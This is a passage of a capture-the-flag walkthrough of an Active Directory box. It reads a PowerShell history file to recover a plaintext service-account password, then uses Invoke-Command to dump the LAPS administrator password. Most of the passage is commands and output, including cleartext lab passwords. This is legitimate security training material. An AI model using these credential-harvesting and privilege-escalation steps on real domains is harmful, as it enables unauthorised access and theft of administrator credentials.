 In the command history below, we can see user 'legacyy' forming a PSCredential object for use in invoking commands as svc_deploy. This will be our way in. 

```
*Evil-WinRM* PS C:\> cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

### Invoke commands as svc_deploy

Upon following the steps to create the PSCredential object and invoke command 'whoami' as svc_deploy, we see username 
'timelapse\svc_deploy' successfully returns.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
*Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
Enter PEM pass phrase:
timelapse\svc_deploy
```

## Priv: svc_deploy -> administrator

### Dump LAPS Password

Returning to the LAPS pentesting guide we used earlier, we can copy a powershell command that will allow us to dump the LAPS password in cleartext, and place this inside the script block. We successfully get the LAPS admin password, 'O2]Br]z.tWI%(0G79c5Z8g2$'

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'}                      
Enter PEM pass phrase:                                                                                                                 

Name           : DC01
ms-Mcs-AdmPwd  : O2]Br]z.tWI%(0G79c5Z8g2$
PSComputerName : localhost
RunspaceId     : 3b3e403e-5af9-4a61-b410-943a0808a643

```
